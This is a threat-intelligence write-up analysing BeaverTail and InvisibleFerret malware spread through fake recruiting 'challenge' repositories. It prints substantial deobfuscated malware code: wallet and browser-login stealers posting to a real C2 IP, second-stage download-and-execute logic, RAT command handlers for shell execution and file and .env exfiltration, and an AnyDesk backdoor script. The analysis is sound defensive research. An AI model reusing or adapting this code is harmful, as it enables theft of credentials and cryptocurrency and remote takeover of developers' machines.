



Analyzing North Korean Malware
Author: Supitto
This article is a mirror of the article that can be found HERE All the files from these articles can be found at https://github.com/team-bytesized/article_dprk_12_2024
About the campaign
We came across this campaign when a user reported that they were offered a job through LinkedIn, and that the "challenge" presented by the recruiter contained malware. These are the hallmark traits of BeaverTail and InvisibleFerret, which is commonly attributed to the Democratic People's Republic of Korea APTs. Through further investigation, that we can't currently disclose, we were able to further identify other TTPs linked with the Democratic People's Republic of Korea. This campaign was initially tracked by Unity42 as Contagious Interview (CL-STA-0240), CrowdStrike attributes it to Tenacious Pungsan, SecurityScoreCard attributes it to Famous Chollima, and some other sources attributes it to lazarus.
Getting to the sample
The sample resides on the bitbucket repository "voting-dapp" (mirror is here) from the user coinbase2024. At first glance, it looks like a normal project that would be handed out during a hiring process.  Once we dug deeper into the files, we noticed that one of the test files was abnormally large  And on the bottom of this file, we can find the malware. Meaning that the malware activated when the developer executed the test cases (usually during builds).  This NodeJS malware is BeaverTail.
Unpacking and Analyzing BeaverTail
The BeaverTail malware on this campaign is exceedingly not obfuscated, websites such as https://deobfuscate.io/ are able to do 90% of the job. We went an extra step and removed most of the anti analysis tech, cleaned really well, and renamed all the variables in a way that it becomes understandable. (You can check the full file HERE) This is the main function of the BeaverTail malware
const main_function = async () => {
try {
const time_in_seconds = Math.round(new Date().getTime() / 1000);
await (async () => {
try {
await prepare_to_upload_wallets_to_c2(path_to_chrome_appdata, 0, time_in_seconds);
await prepare_to_upload_wallets_to_c2(path_to_brave_appdata, 1, time_in_seconds);
await prepare_to_upload_wallets_to_c2(path_to_opera_appdata, 2, time_in_seconds);
upload_exodus_wallet_info_to_c2(time_in_seconds);
if ('w' == platform[0]) { //windows
await upload_wallets_to_c2(append_slash_if_necessary('~/') + "/AppData/Local/Microsoft/Edge/User Data", '3_', false, time_in_seconds);
}
if ('d' == platform[0]) { // mac
await upload_keychain_and_login_data_to_c2(time_in_seconds);
} else { // linux
await upload_browser_local_state_to_c2(path_to_chrome_appdata, 0, time_in_seconds);
await upload_browser_local_state_to_c2(path_to_brave_appdata, 1, time_in_seconds);
await upload_browser_local_state_to_c2(path_to_opera_appdata, 2, time_in_seconds);
}
} catch (e) {}
})();
deploy_and_run_second_stage();
} catch (e) {}
};
First it tries to upload all crypto wallets from the browser through prepare_to_upload_wallets_to_c2 and upload_wallets_to_c2
const fs = require('fs');
const os = require('os');
const path = require("path");
const request = require("request");
const platform = os.platform();
const append_slash_if_necessary = v => v.replace(/^~([a-z]+|\/)/, (var_a, var_b) => '/' === var_b ? homedir : path.dirname(homedir) + '/' + var_b);
const path_to_brave_appdata = ["Local/BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser"];
const path_to_chrome_appdata = ["Local/Google/Chrome", "Google/Chrome", "google-chrome"];
const path_to_opera_appdata = ["Roaming/Opera Software/Opera Stable", "com.operasoftware.Opera", "opera"];
const wallet_extension_names = ["nkbihfbeogaeaoehlefnkodbefgpgknn", "ejbalbakoplchlghecdalmeeeajnimhm", "fhbohimaelbohpjbbldcngcnapndodjp", "ibnejdfjmmkpcnlpebklmnkoeoihofec", "bfnaelmomeimhlpmgjnjophhpkkoljpa", "aeachknmefphepccionboohckonoeemg", "hifafgmccdpekplomjjkcfgodnhcellj", "jblndlipeogpafnldhgmapagcccfchpi", "acmacodkjbdgmoleebolmdjonilkdbch", "dlcobpjiigpikoobohmabehhmhfoodbb", "mcohilncbfahbmgdjkbpemcciiolgcge", "agoakfejjabomempkjlepdflaleeobhb", "omaabbefbmiijedngplfjmnooppbclkk", "aholpfdialjgjfhomihkjbmgjidlcdno", "nphplpgoakhhjchkkhmiggakijnkhfnd", "penjlddjkjgpnkllboccdgccekpkcbin", "lgmpcpglpngdoalbgeoldeajfclnhafa", "fldfpgipfncgndfolcbkdeeknbbbnhcc", "bhhhlbepdkbapadjdnnojkbgioiodbic", "gjnckgkfmgmibbkoficdidcljeaaaheg", "afbcbjpbpfadlkmhmclhkeeodmamcflc"];
const prepare_to_upload_wallets_to_c2 = async (known_path_to_browser_config, id_prefix, current_time) => {
try {
let path_to_browser = '';
if (platform[0] == 'd') { // mac
path_to_browser = append_slash_if_necessary('~/') + "/Library/Application Support/" + known_path_to_browser_config[1]
} else if (platform[0] == 'l') { //linux
path_to_browser = append_slash_if_necessary('~/') + "/.config/" + known_path_to_browser_config[2]
} else { // windows
path_to_browser = append_slash_if_necessary('~/') + "/AppData/" + known_path_to_browser_config[0] + "/User Data"
}
upload_wallets_to_c2(path_to_browser, id_prefix + '_', 0 == id_prefix, current_time);
} catch (e) {}
};
function check_if_dir_is_accessible(dir_path) {
try {
fs.accessSync(dir_path);
return true;
} catch (e) {
return false;
}
}
const upload_files_to_c2 = (file_queue, current_time) => {
const dev_state = {
gt: function(a, b) {
return a > b;
}
};
dev_state.dev_switch = "PKaRH";
const form_data = {
type: '10',
hid: "103_" + hostname,
uts: current_time,
multi_file: file_queue
};
try { // this is probably a switch for the malware dev, or to switch C2s between local and remote
if (dev_state.dev_switch !== "PKaRH") {
if (file_queue.length > 0) {
const args = {
url: unknow_url + "/uploads",
formData: unknow_files
};
unknow_library.post(args, (_a, _b, _c) => {});
}
} else {
if (file_queue.length > 0) {
const args = {
url: "http://185.153.182.241:1224/uploads",
formData: form_data
};
request.post(args, (_a, _b, _c) => {});
}
}
} catch (e) {}
There is no sophistication here, the malware just make a list of names, file handlers, and send them as a multipart form data to http://c2/upload. The only notable portion here, is that the malware dev left a snippet behind from probably development phase. In it we can see the attribution of the string "PKaRH" as a switch to change C2s. I currently can't find that string in other infostealer (as of the time of writing), but this may be a good sub string to identify other malware from the same strand. The array full of jumbled letters are actually chrome extensions ids, in this case they are all crypto wallets. Here is a mapping of those strings map to:
nkbihfbeogaeaoehlefnkodbefgpgknn -> MetaMask
ejbalbakoplchlghecdalmeeeajnimhm -> MetaMask (edge)
fhbohimaelbohpjbbldcngcnapndodjp -> BNB Chain Wallet
ibnejdfjmmkpcnlpebklmnkoeoihofec -> TronLink
bfnaelmomeimhlpmgjnjophhpkkoljpa -> Phantom
aeachknmefphepccionboohckonoeemg -> Coin98 Wallet
hifafgmccdpekplomjjkcfgodnhcellj -> Crypto.com | Onchain Extension
jblndlipeogpafnldhgmapagcccfchpi -> Kaia Wallet
acmacodkjbdgmoleebolmdjonilkdbch -> Rabby Wallet
dlcobpjiigpikoobohmabehhmhfoodbb -> Argent X - Starknet Wallet
mcohilncbfahbmgdjkbpemcciiolgcge -> OKX Wallet
agoakfejjabomempkjlepdflaleeobhb -> Core | Crypto Wallet & NFT Extension
omaabbefbmiijedngplfjmnooppbclkk -> Tonkeeper - wallet for TON
aholpfdialjgjfhomihkjbmgjidlcdno -> Exodus Web3 Wallet
nphplpgoakhhjchkkhmiggakijnkhfnd -> TON Wallet
penjlddjkjgpnkllboccdgccekpkcbin -> OpenMask - TON wallet
lgmpcpglpngdoalbgeoldeajfclnhafa -> SafePal Extension Wallet
fldfpgipfncgndfolcbkdeeknbbbnhcc -> MyTonWallet · My TON Wallet
bhhhlbepdkbapadjdnnojkbgioiodbic -> Solflare Wallet
gjnckgkfmgmibbkoficdidcljeaaaheg -> Atomic Wallet
afbcbjpbpfadlkmhmclhkeeodmamcflc -> MathWallet
The upload_browser_local_state_to_c2 is just a more condensed version of the pair prepare_to_upload_wallets_to_c2 and upload_wallets_to_c2. It does generally the same thing, but with browser profiles (the first 200).
const fs = require('fs');
const os = require('os');
const path = require("path");
const request = require("request");
const platform = os.platform();
const append_slash_if_necessary = v => v.replace(/^~([a-z]+|\/)/, (var_a, var_b) => '/' === var_b ? homedir : path.dirname(homedir) + '/' + var_b);
const upload_browser_local_state_to_c2 = async (browser_path, id_prefix, current_time) => {
let file_queue = [];
let browser_config_path = '';
if (platform[0] == 'd') {
browser_config_path += append_slash_if_necessary('~/') + "/Library/Application Support/" + browser_path[1]
} else if (platform[0] == 'l') {
browser_config_path += append_slash_if_necessary('~/') + "/.config/" + browser_path[2]
} else {
browser_config_path += append_slash_if_necessary('~/') + "/AppData/" + browser_path[0] + "/User Data"
}
let browser_local_state_path = browser_config_path + "/Local State";
if (fs.existsSync(browser_local_state_path)) {
try {
const options = {
filename: id_prefix + "_lst"
};
file_queue.push({
'value': fs.createReadStream(browser_local_state_path),
'options': options
});
} catch (e) {}
}
try {
if (check_if_dir_is_accessible(browser_config_path)) {
for (let i = 0; i < 200; i++) {
const profile_path = browser_config_path + '/' + (0 === i ? "Default" : "Profile " + i);
try {
if (!check_if_dir_is_accessible(profile_path)) {
continue;
}
const full_path = profile_path + "/Login Data";
if (!check_if_dir_is_accessible(full_path)) {
continue;
}
const options = {
filename: id_prefix + '_' + i + "_uld"
};
file_queue.push({
'value': fs.createReadStream(full_path),
'options': options
});
} catch (e) {}
}
}
} catch (e) {}
upload_files_to_c2(file_queue, current_time);
return file_queue;
};
const upload_files_to_c2 = (file_queue, current_time) => {
const dev_state = {
gt: function(a, b) {
return a > b;
}
};
dev_state.dev_switch = "PKaRH";
const form_data = {
type: '10',
hid: "103_" + hostname,
uts: current_time,
multi_file: file_queue
};
try { // this is probably a switch for the malware dev, or to switch C2s between local and remote
if (dev_state.dev_switch !== "PKaRH") {
if (file_queue.length > 0) {
const args = {
url: unknow_url + "/uploads",
formData: unknow_files
};
unknow_library.post(args, (_a, _b, _c) => {});
}
} else {
if (file_queue.length > 0) {
const args = {
url: "http://185.153.182.241:1224/uploads",
formData: form_data
};
request.post(args, (_a, _b, _c) => {});
}
}
} catch (e) {}
One notable thing about this, is the lacking of calls to windows in order to decrypt the chrome browser information. In my opinion, this means one of three things (and feel free to send your teories in the comments):
- BeaverTail is using a very old code base (from before browser files were encrypted)
- They somehow have (or expect to have in the future) the capability to decrypt it without access the user machine<
- They rely on InvisibleFerret working later on.
Finally, the most interesting portion of BeaverTail, the deploy_and_run_second_stage function, which is going to download InvisibleFerret
const fs = require('fs');
const child_process = require("child_process").exec;
const request = require("request");
let python_download_current_size = 0;
const untar = async tar_name => {
child_process("tar -xf " + tar_name + " -C " + homedir, (success, _b, _c) => {
if (success) {
fs.rmSync(tar_name);
return void(python_download_current_size = 0);
}
fs.rmSync(tar_name);
deploy_and_run_second_stage();
});
};
function setup_to_download_again() {
setTimeout(() => {
download_python();
}, 20000);
}
const download_python = () => {
const p_zi_path = tmp_dir + "\\p.zi";
const p2_zip_path = tmp_dir + "\\p2.zip";
if (python_download_current_size >= 51476596) {
return;
}
if (fs.existsSync(p_zi_path)) {
try {
var p_zi_props = fs.statSync(p_zi_path);
if (p_zi_props.size >= 51476596) {
python_download_current_size = p_zi_props.size;
fs.rename(p_zi_path, p2_zip_path, possible_error => {
if (possible_error) {
throw possible_error;
}
untar(p2_zip_path);
});
} else {
if (python_download_current_size < p_zi_props.size) {
python_download_current_size = p_zi_props.size;
} else {
fs.rmSync(p_zi_path);
python_download_current_size = 0;
}
setup_to_download_again();
}
} catch (e) {}
} else {
child_process("curl -Lo \"" + p_zi_path + "\" \"" + "http://185.153.182.241:1224/pdown" + "\"", (success, _b, _b) => {
if (success) {
python_download_current_size = 0;
return void setup_to_download_again();
}
try {
python_download_current_size = 51476596;
fs.renameSync(p_zi_path, p2_zip_path);
untar(p2_zip_path);
} catch (e) {}
});
}
};
const deploy_and_run_second_stage = async () => await new Promise((_s, _err) => {
if ('w' == platform[0]) {
if (fs.existsSync(homedir + "\\.pyp\\python.exe")) {
(() => {
const sys_info_path = homedir + "/.sysinfo";
const command_to_run_sys_info = "\"" + homedir + "\\.pyp\\python.exe\" \"" + sys_info_path + "\"";
try {
fs.rmSync(sys_info_path);
} catch (e) {}
request.get("http://185.153.182.241:1224/client/10/103", (success, _b, data) => {
if (!success) {
try {
fs.writeFileSync(sys_info_path, data);
child_process(command_to_run_sys_info, (_a, _b, _c) => {});
} catch (e) {}
}
});
})();
} else {
download_python();
}
} else {
(() => {
request.get("http://185.153.182.241:1224/client/10/103", (success, _b, data) => {
if (!success) {
fs.writeFileSync(homedir + "/.sysinfo", data);
child_process("python3 \"" + homedir + "/.sysinfo\"", (_a, _b, _c) => {});
}
});
})();
}
});
Here, BeaverTail takes a slightly different approach than the norm, on windows it downloads a tar file with all the dependencies necessary, and on Linux it trusts that the machine will be ready to run the malware. This is interesting, because it assumes that tar is installed on the windows machine, which is only true for more "modern" systems There is one slight more sophisticated portion controlling/checking the download status by looking at the file size, and retrying in case of any weirdness, which is refreshing to see. I haven't personally checked, but I believe that none of the python dependencies are adulterated. Now we can move to a different portion of the code, the python one. Unpacking InvisibleFerret Once again there is not much in the side of actual obfuscation here, only a matrioska approach where the code need to be reversed, decoded, and decompressed over and over again. It looks like this
_ = lambda __ : __import__('zlib').decompress(__import__('base64').b64decode(__[::-1]));exec((_)(b'==QoVZ9uP4///9T5pA3Q...YRAYE5SUzlNwJe'))
We ended making a simple script that turns this into the de obfuscated version
import zlib
import base64
import sys
with open(sys.argv[1],'r') as f:
pl = f.read()
def decompress(pl):
try:
pl = pl[::-1]
pl = base64.b64decode(pl)
pl = zlib.decompress(pl)
return pl
except:
print("ERROR")
print(pl)
exit()
while True:
pl = decompress(pl)
if (pl[0:9] == b"exec((_)("):
pl = pl[11:-3]
else:
print(pl.decode())
break
And lo and behold, there is no further obfuscation here, the developers left everything intact. There are even original variable names and comments, which is quite rare. Bonus points for the malware devs for making it easier for us. The landing module The first code downloaded after the BeaverTail portion is really small so I can put it all here:
import base64, platform, os, subprocess, sys
try:
import requests
except:
subprocess.check_call([sys.executable, "-m", "pip", "install", "requests"])
import requests
sType = "10"
gType = "103"
ot = platform.system()
home = os.path.expanduser("~")
# host1 = "10.10.51.212"
host1 = "185.153.182.241"
host2 = f"http://{host1}:1224"
pd = os.path.join(home, ".n2")
ap = pd + "/pay"
def download_payload():
if os.path.exists(ap):
try:
os.remove(ap)
except OSError:
return True
try:
if not os.path.exists(pd):
os.makedirs(pd)
except:
pass
try:
if ot == "Darwin":
# aa = requests.get(host2+"/payload1/"+sType+"/"+gType, allow_redirects=True)
aa = requests.get(
host2 + "/payload/" + sType + "/" + gType, allow_redirects=True
)
with open(ap, "wb") as f:
f.write(aa.content)
else:
aa = requests.get(
host2 + "/payload/" + sType + "/" + gType, allow_redirects=True
)
with open(ap, "wb") as f:
f.write(aa.content)
return True
except Exception as e:
return False
res = download_payload()
if res:
if ot == "Windows":
subprocess.Popen(
[sys.executable, ap],
creationflags=subprocess.CREATE_NO_WINDOW
| subprocess.CREATE_NEW_PROCESS_GROUP,
)
else:
subprocess.Popen([sys.executable, ap])
if ot == "Darwin":
sys.exit(-1)
ap = pd + "/bow"
def download_browse():
if os.path.exists(ap):
try:
os.remove(ap)
except OSError:
return True
try:
if not os.path.exists(pd):
os.makedirs(pd)
except:
pass
try:
aa = requests.get(
host2 + "/brow/" + sType + "/" + gType, allow_redirects=True
)
with open(ap, "wb") as f:
f.write(aa.content)
return True
except Exception as e:
return False
res = download_browse()
if res:
if ot == "Windows":
subprocess.Popen(
[sys.executable, ap],
creationflags=subprocess.CREATE_NO_WINDOW
| subprocess.CREATE_NEW_PROCESS_GROUP,
)
else:
subprocess.Popen([sys.executable, ap])
ap = pd + "/mlip"
def download_mclip():
if os.path.exists(ap):
try:
os.remove(ap)
except OSError:
return True
try:
if not os.path.exists(pd):
os.makedirs(pd)
except:
pass
try:
aa = requests.get(
host2 + "/mclip/" + sType + "/" + gType, allow_redirects=True
)
with open(ap, "wb") as f:
f.write(aa.content)
return True
except Exception as e:
return False
res = download_mclip()
if res:
if ot == "Windows":
subprocess.Popen(
[sys.executable, ap],
creationflags=subprocess.CREATE_NO_WINDOW
| subprocess.CREATE_NEW_PROCESS_GROUP,
)
else:
subprocess.Popen([sys.executable, ap])
You can also look at it HERE As we can see, it creates a .n2 on the user home directory and download three other code portions, one for stealing browser information (/bow), one for stealing clipboard information (/mclip), and a RAT (/payload). One notable thing we can find are the variables sType and gType. We currently don't have confirmation, but we believe them to be just identification codes from different campaigns, since changing them only change the parameters inside the downloaded code, but not the code itself. As an added bonus, we also identified that the gType 'root' is also valid.
The browser stealer
The browser stealer is finally something closer to what we are used to see on stealers, which probably means that the js one is either legacy, or just junk they used to download the actual malware. There is not much difference between this code and all the other browser stealers in the wild. It fetches all your credit cards, all you passwords, all you sessions and send them to http://c2/key as part of a json object. The only interesting portions are that while most browser stealers are messy, this one is well structured. Every browser have a class and inherits properties from another class for the underlying engine, and so forth. It does not change the behavior at all, but it shows that they are trying to do an expandable codebase. The other interesting portion is the inclusion of the yandex browser, something that I haven't seen before, and that might show that this is also targeting Russian audiences. You can read the whole code HERE
The mclip stealer
In here they create a window using wxPython and capture all key presses through it, making it a very basic keylogger. The only interesting bit here, is that every once in a while they send the text to https://new_c2/api/mclip, meaning that they are using a different server to receive the keylogger data. We still don't know why this is the case, but it strikes as odd You can read the whole code HERE
The RAT
Now this is the most interesting part, whenever you are downloading the RAT script ("/payload/" + sType + "/" + gType), the port changes depending on sType and gType, meaning they are using different ports for pairs of different identifiers. In fact, if you scan the C2, you will find a good number of open ports, and they are all for the RATs. You can read the whole code HERE The RAT starts by gathering information on the machine and sending it to the same /keys endpoint we've seen before. After that it opens a tcp connection to the c2 and waits for a command. These are the actions it accepts
ssh_obj
This action executes a terminal command and returns back the code to c2
def ssh_obj(A, args):
o = ""
try:
a = args[_A]
cmd = args["cmd"]
if cmd == "":
o = ""
elif cmd.split()[0] == "cd":
proc = subprocess.Popen(cmd, shell=_T)
if len(cmd.split()) != 1:
p = " ".join(cmd.split()[1:])
if os.path.exists(p):
os.chdir(p)
o = os.getcwd()
else:
proc = subprocess.Popen(
cmd,
shell=_T,
stdin=subprocess.PIPE,
stdout=subprocess.PIPE,
stderr=subprocess.PIPE,
).communicate()
try:
o = decode_str(proc[0])
err = decode_str(proc[1])
except:
o = proc[0]
err = proc[1]
o = o if o else err
except:
pass
p = {_A: a, _O: o}
A.send(code=1, args=p)
ssh_cmd
This action kills the malware by ending all python processes
def ssh_cmd(A, args):
try:
if os_type == "Windows":
subprocess.Popen("taskkill /IM /F python.exe", shell=_T)
else:
subprocess.Popen("killall python", shell=_T)
except:
pass
ssh_clip
This action sends clipboard and keylogger information. The e_buf stores those information on other pieces of the code, you can read them HERE.
def ssh_clip(A, args):
global e_buf
try:
A.send(code=3, args=e_buf)
e_buf = ""
except:
pass
ssh_run
This downloads again and run the browser module. You can read the full code of the browser module HERE.
def ssh_run(A, args):
try:
a = args[_A]
p = A.par_dir + "/bow"
res = A.bro_down(p)
if res:
if os_type == "Windows":
subprocess.Popen(
[sys.executable, p],
creationflags=subprocess.CREATE_NO_WINDOW
| subprocess.CREATE_NEW_PROCESS_GROUP,
)
else:
subprocess.Popen([sys.executable, p])
o = os_type + " get browse"
except Exception as e:
o = f"Err4: {e}"
pass
p = {_A: a, _O: o}
A.send(code=4, args=p)
ssh_upload
This action does multiple upload subactions, those are:
- sdir - This subaction uploads all files in a directory to the C2
- sfile - This subaction uploads a specific file in a directory to the C2
- sfind - Finds and upload development related files in a specific directory
import ast
def ld(rd, pd):
dir = os.path.join(rd, pd)
res = []
res.append((pd, ""))
sa = os.listdir(dir)
for x in sa:
fn = os.path.join(dir, x)
try:
x0 = x.lower()
if os.path.isfile(fn):
ff, fe = os.path.splitext(x0)
if not fe in ex_files and os.path.getsize(fn) < 104857600:
res.append((pd, x))
elif os.path.isdir(fn):
if not x in ex_dirs and not x0 in ex_dirs:
if pd != "":
t = pd + "/" + x
else:
t = x
res = res + ld(rd, t)
except:
pass
return res
def ss_upd(A, D, args, sd, name):
A.cp_stop = 0
t = _N
try:
if sd == ".":
sd = os.getcwd()
A.send_5(D, " >> upload start: " + sd)
res = ld(sd, "")
A.send_5(D, " -count: " + str(len(res) - 1))
for x, y in res:
if A.cp_stop == 1:
A.send_5(D, " upload stopped ")
return
if y == "":
continue
A.ss_hup(os.path.join(sd, y), D, name, 5)
A.send_5(D, " uploaded success ")
except Exception as ex:
o = " copy error :" + str(ex)
A.send_5(D, o)
def ss_hup(A, sn, D, name, n):
try:
up_time = str(int(time.time()))
files = [
(
"multi_file",
(up_time + "_" + os.path.basename(sn), open(sn, "rb")),
),
]
r = {
"type": sType,
"hid": gType + "_" + sHost,
"uts": name,
}
host2 = f"http://{HOST}:{PORT}"
requests.post(host2 + "/uploads", files=files, data=r)
if os.path.basename(sn) != "flist":
write_flist(up_time + "_" + os.path.basename(sn) + " : " + sn + "\n")
o = " copied " + fmt_s(os.path.getsize(sn)) + ": " + os.path.basename(sn)
A.send_n(D, n, o)
else:
os.remove(sn)
except Exception as e:
o = " failed: " + sn + " > " + str(e)
A.send_n(D, n, o)
def ss_upf(A, admin, args, sfile, name):
D = admin
A.cp_stop = 0
t = _N
try:
sdir = os.getcwd()
A.send_5(D, " >> upload start: " + sdir + " " + sfile)
sn = os.path.join(sdir, sfile)
A.ss_hup(sn, D, name, 5)
A.send_5(D, " uploaded done ")
except Exception as ex:
o = " copy error :" + str(ex)
A.send_5(D, o)
def ss_ufind(A, D, args, name, pat):
A.cp_stop = 0
t = _N
try:
A.send_5(D, " >> ufind start: " + os.getcwd())
if os_type == "Windows":
command = (
"dir /b /s "
+ pat
+ ' | findstr /v /i "node_modules .css .svg readme license robots vendor Pods .git .github .node-gyp .nvm debug .local .cache .pyp .pyenv next.config .qt .dex __pycache__ tsconfig.json tailwind.config svelte.config vite.config webpack.config postcss.config prettier.config angular-config.json yarn .gradle .idea .htm .html .cpp .h .xml .java .lock .bin .dll .pyi"'
)
else:
command = (
'find . -type d -name "node_modules .css .svg readme license robots vendor Pods .git .github .node-gyp .nvm debug .local .cache .pyp .pyenv next.config .qt .dex __pycache__ tsconfig.json tailwind.config svelte.config vite.config webpack.config postcss.config prettier.config angular-config.json yarn .gradle .idea .htm .html .cpp .h .xml .java .lock .bin .dll .pyi" -prune -o -name '
+ pat
+ " -print"
)
proc = subprocess.Popen(
command,
shell=True,
stdin=subprocess.PIPE,
stdout=subprocess.PIPE,
stderr=subprocess.PIPE,
).communicate()
dirs = proc[0].decode("utf8").split("\n")
if dirs == [""]:
A.send_5(D, " -count: " + str(0))
A.send_5(D, " Not exist ")
else:
A.send_5(D, " -count: " + str(len(dirs) - 1))
for key in dirs:
if A.cp_stop == 1:
A.send_5(D, " upload stopped ")
break
if key.strip() == "":
continue
A.ss_hup(key.strip(), D, name, 5)
A.send_5(D, " ufind success ")
except Exception as ex:
o = " copy error :" + str(ex)
A.send_5(D, o)
def ss_ups(A):
A.cp_stop = 1
def ssh_upload(A, args):
o = ""
try:
D = args[_A]
cmd = args["cmd"]
cmd = ast.literal_eval(cmd)
if "sdir" in cmd:
sdir = cmd["sdir"]
dn = cmd["dname"]
sdir = sdir.strip()
dn = dn.strip()
A.ss_upd(D, cmd, sdir, dn)
return _T
elif "sfile" in cmd:
sfile = cmd["sfile"]
dn = cmd["dname"]
sfile = sfile.strip()
dn = dn.strip()
A.ss_upf(D, cmd, sfile, dn)
return _T
elif "sfind" in cmd:
dn = cmd["dname"]
pat = cmd["sfind"]
dn = dn.strip()
pat = pat.strip()
A.ss_ufind(D, cmd, dn, pat)
return _T
else:
A.ss_ups()
o = "Stopped ..."
except Exception as e:
print("error_upload:", str(e))
o = f"Err4: {e}"
pass
A.send_5(D, o)
ssh_kill
This action kill all chrome and brave instances
def ssh_kill(A, args):
D = args[_A]
if os_type == "Windows":
try:
subprocess.Popen("taskkill /IM chrome.exe /F")
except:
pass
try:
subprocess.Popen("taskkill /IM brave.exe /F")
except:
pass
else:
try:
subprocess.Popen("killall Google\ Chrome")
except:
pass
try:
subprocess.Popen("killall Brave\ Browser")
except:
pass
p = {_A: D, _O: "Chrome & Browser are terminated"}
A.send(code=6, args=p)
ssh_any
This downloads and executes a third stage aimed at using AnyDesk as remote access tool. In the past the malware itself downloaded and installed AnyDesk, but we were unable to identify it on the current C2, which may mean that it is now a legacy feature.
def down_any(A, p):
if os.path.exists(p):
try:
os.remove(p)
except OSError:
return _T
try:
if not os.path.exists(A.par_dir):
os.makedirs(A.par_dir)
except:
pass
host2 = f"http://{HOST}:{PORT}"
try:
myfile = requests.get(host2 + "/adc/" + sType, allow_redirects=_T)
with open(p, "wb") as f:
f.write(myfile.content)
return _T
except Exception as e:
return _F
def ssh_any(A, args):
try:
D = args[_A]
p = A.par_dir + "/adc"
res = A.down_any(p)
if res:
if os_type == "Windows":
subprocess.Popen(
[sys.executable, p],
creationflags=subprocess.CREATE_NO_WINDOW
| subprocess.CREATE_NEW_PROCESS_GROUP,
)
else:
subprocess.Popen([sys.executable, p])
o = os_type + " get anydesk"
except Exception as e:
o = f"Err7: {e}"
pass
p = {_A: D, _O: o}
A.send(code=7, args=p)
ssh_env
This action look for development files on the whole disk and send them to the directly C2
def ss_hup(A, sn, D, name, n):
try:
up_time = str(int(time.time()))
files = [
(
"multi_file",
(up_time + "_" + os.path.basename(sn), open(sn, "rb")),
),
]
r = {
"type": sType,
"hid": gType + "_" + sHost,
"uts": name,
}
host2 = f"http://{HOST}:{PORT}"
requests.post(host2 + "/uploads", files=files, data=r)
if os.path.basename(sn) != "flist":
write_flist(up_time + "_" + os.path.basename(sn) + " : " + sn + "\n")
o = " copied " + fmt_s(os.path.getsize(sn)) + ": " + os.path.basename(sn)
A.send_n(D, n, o)
else:
os.remove(sn)
except Exception as e:
o = " failed: " + sn + " > " + str(e)
A.send_n(D, n, o)
def ss_uenv(A, D, C):
proc = subprocess.Popen(
C,
shell=True,
stdin=subprocess.PIPE,
stdout=subprocess.PIPE,
stderr=subprocess.PIPE,
).communicate()
dirs = proc[0].decode("utf8").split("\n")
if dirs == [""]:
A.send_n(D, 8, " -count: " + str(0))
else:
A.send_n(D, 8, " -count: " + str(len(dirs) - 1))
for key in dirs:
if A.cp_stop == 1:
A.send_n(D, 8, " upload stopped ")
break
if key.strip() == "":
continue
A.ss_hup(key.strip(), D, "global_env", 8)
def ssh_env(A, args):
drive_list = ["C", "D", "E", "F", "G"]
A.cp_stop = 0
try:
a = args[_A]
c = args["cmd"]
c = ast.literal_eval(c)
A.send_n(a, 8, "--- uenv start ")
if os_type == "Windows":
for key in drive_list:
if os.path.exists(f"{key}:\\") == False:
continue
c = (
"dir /b /s "
+ key
+ ':\*.env | findstr /v /i "node_modules .css .svg readme license robots vendor Pods .git .github .node-gyp .nvm debug .local .cache .pyp .pyenv next.config .qt .dex __pycache__ tsconfig.json tailwind.config svelte.config vite.config webpack.config postcss.config prettier.config angular-config.json yarn .gradle .idea .htm .html .cpp .h .xml .java .lock .bin .dll .pyi"'
)
A.ss_uenv(a, c)
else:
c = 'find ~/ -type d -name "node_modules .css .svg readme license robots vendor Pods .git .github .node-gyp .nvm debug .local .cache .pyp .pyenv next.config .qt .dex __pycache__ tsconfig.json tailwind.config svelte.config vite.config webpack.config postcss.config prettier.config angular-config.json yarn .gradle .idea .htm .html .cpp .h .xml .java .lock .bin .dll .pyi" -prune -o -name *.env -print'
A.ss_uenv(a, c)
A.send_n(a, 8, "--- uenv success ")
except Exception as e:
A.send_n(a, 8, " uenv err: " + str(e))
AnyRun Module
This module of the malware seems to be a legacy code that remains from previous iterations. Specially because we were able to track it down to code samples at least 10 months old with unauthered parameters. You can read the whole code HERE In short, it supposes that AnyDesk is already installed, and sets it up so the attackers can remote into the users' machine. This is the setup script it tries to run
$stream_reader = New-Object System.IO.StreamReader($file_path)
$output_file_path = $file_path + "d"
$stream_writer = New-Object System.IO.StreamWriter($output_file_path)
$pd = "ad.anynet.pwd_hash=967adedce518105664c46e21fd4edb02270506a307ea7242fa78c1cf80baec9d"
$ps = "ad.anynet.pwd_salt=351535afd2d98b9a3a0e14905a60a345"
$ts = "ad.anynet.token_salt=e43673a2a77ed68fa6e8074167350f8f"
while (($line = $stream_reader.ReadLine()) -ne $null) {
if ($line -like "ad.anynet.pwd_hash=*") {
$line = $pd
}
elseif ($line -like "ad.anynet.pwd_salt=*") {
$line = $ps
}
elseif ($line -like "ad.anynet.token_salt=*") {
$line = $ts
}
else{
$stream_writer.WriteLine($line)
}
}
$stream_writer.WriteLine($pd)
$stream_writer.WriteLine($ps)
$stream_writer.WriteLine($ts)
$stream_reader.Close()
$stream_writer.Close()
remove-item -fo $file_path
Rename-Item -Path $output_file_path -NewName $file_path
taskkill /IM anydesk.exe /F
Further analysis
